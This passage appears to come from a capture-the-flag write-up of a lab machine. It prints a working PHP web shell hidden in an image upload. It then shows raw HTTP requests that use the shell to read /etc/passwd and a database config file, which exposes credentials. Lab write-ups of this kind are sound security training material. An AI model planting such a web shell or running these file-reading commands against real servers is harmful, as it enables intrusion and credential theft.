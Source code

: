     <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

    ?>

    Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

    <!--    http://michaeldaw.org   2006    -->

    -----------------------------1971341748341881315972996739
    Content-Disposition: form-data; name="submit"

    Upload Image
    -----------------------------1971341748341881315972996739--

This "image" will be uploaded and we can then go to
`http://10.10.10.185/images/uploads/simple-backdoor2.php` to execute some
commands on the system.

We start enumerating and found a `db.php5` file containing the database
credentials `theseus:iamkingtheseus`.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=cat+/var/www/Magic/db.php5 HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs
    Content-Length: 2


    HTTP/1.1 200 OK
    Date: Wed, 22 Apr 2020 12:32:22 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 961
    Connection: close
    Content-Type: text/html; charset=UTF-8

    PNG
    

    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>
    class Database
    {
        private static $dbName = 'Magic' ;
        private static $dbHost = 'localhost' ;
        private static $dbUsername = 'theseus';
        private static $dbUserPassword = 'iamkingtheseus';
